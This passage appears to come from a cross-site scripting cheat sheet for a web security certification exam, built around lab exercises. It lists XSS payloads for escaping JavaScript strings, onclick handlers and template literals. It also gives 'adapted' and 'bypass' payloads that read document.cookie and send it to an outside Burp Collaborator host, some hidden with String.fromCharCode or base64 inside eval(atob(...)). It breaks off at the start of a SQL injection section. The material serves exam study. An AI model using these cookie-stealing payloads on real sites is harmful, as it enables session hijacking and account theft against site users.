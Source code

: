 
### 13. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\';alert(1);//
\'-alert(1)//
```
**Adapted version**
```
\';document.location=`http://burp.oastify.com/?c=`+document.cookie;//
```


### 14. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://foo?&apos;-alert(1)-&apos;
```


### 15. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
```
${alert(1)}
```


## Some Useful Bypasses
```
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 

Can be interpreted as

</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```

# SQL Injection
## Approach
If you have Advanced Search page on your exam, you are more likely about to get easy priv escalation. 
![d](https://user-images.githubusercontent.com/58632878/224578375-702c69c5-b493-4fc4-8663-4ec5f8b68d33.png)  
  
